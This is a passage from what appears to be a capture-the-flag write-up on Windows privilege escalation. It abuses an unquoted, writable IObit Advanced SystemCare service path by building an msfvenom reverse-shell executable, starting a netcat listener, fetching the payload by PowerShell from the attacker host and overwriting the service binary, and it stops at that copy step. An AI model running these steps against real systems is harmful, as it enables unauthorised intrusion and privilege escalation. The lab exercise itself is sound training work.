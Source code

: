 [?] Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
AdvancedSystemCareService9(IObit - Advanced SystemCare Service 9)[C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe] - Auto- Running - No quotes and Space detected
File Permissions: bill [WriteData/CreateFiles]
Possible DLL Hijacking in binary folder: C:\Program Files (x86)\IObit\Advanced SystemCare (bill [WriteData/CreateFiles])
Advanced SystemCare Service{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `msfvenom` to create a `reverse shell` payload.
{% capture code %}{% raw %}msfvenom -p windows/shell_reverse_tcp LHOST=<source-ip> LPORT=4444 -e x86/shikata_ga_nai -f exe -o ASCService.exe{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: ASCService.exe{% endraw %}{% endcapture %} {% include code.html code=code %}

Create a `netcat` listener.
{% capture code %}{% raw %}rlwrap -cAr nc -lnvp 4444{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 4444){% endraw %}{% endcapture %} {% include code.html code=code %}

From the previous `netcat` listener, download the `reverse shell` payload and start the exploited service.
{% capture code %}{% raw %}C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> powershell -c wget "http://<source-ip>:8080/ASCService.exe" -outfile "ASCService.exe"
powershell -c wget "http://<source-ip>:8080/ASCService.exe" -outfile "ASCService.exe"

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> sc query AdvancedSystemCareService9
sc query AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> copy "ASCService.exe" "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
copy "ASCService.exe" "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"